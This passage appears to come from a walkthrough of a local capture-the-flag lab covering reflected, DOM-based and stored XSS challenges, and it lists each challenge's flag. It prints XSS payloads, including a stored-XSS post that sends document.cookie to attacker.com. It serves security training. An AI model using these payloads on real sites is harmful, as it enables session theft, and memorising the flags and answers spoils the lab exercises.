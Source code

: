 3. **Observes the result:**
   - Script executes in browser (alert popup)
   - HTML source shows unescaped input
   - **🏆 FLAG REVEALED: `FLAG{R3FL3CT3D_XSS_M4ST3R}`**

#### **Challenge 2: DOM-based XSS**
```
🌐 URL: http://localhost:5000/vulnerable/dom
```

**What the user does:**
1. **Accesses the welcome page**
   - Sees: "Welcome, Guest!"
   - Instructions: "Use URL fragment to set your name: #YourName"

2. **Tests DOM manipulation**
   ```
   URL: /vulnerable/dom#<script>alert('DOM XSS')</script>
   URL: /vulnerable/dom#<img src=x onerror=alert('DOM')>
   ```

3. **Observes client-side execution:**
   - JavaScript processes URL fragment unsafely
   - Script executes via DOM manipulation
   - **🏆 FLAG REVEALED: `FLAG{D0M_XSS_CSP_BYP4SS_L33T}`**

#### **Challenge 3: Stored XSS**
```
🌐 API Endpoint: http://localhost:5000/api/posts
```

**What the user does:**
1. **Discovers comment/post functionality**
2. **Submits malicious content**
   ```json
   POST /api/posts
   {
     "title": "Test Post",
     "content": "<script>document.location='http://attacker.com/'+document.cookie</script>",
     "author": "hacker"
   }
   ```
3. **Views stored content and sees persistent XSS**
   - **🏆 FLAG REVEALED: `FLAG{ST0R3D_XSS_PWND}`**

---

## 🔐 **3. JWT Attacks Lab Experience**
```
🔗 Lab URL: http://localhost:5001
🎯 Difficulty: Advanced
⏱️ Est. Time: 1-2 hours
🚩 Flags: 4 available
```
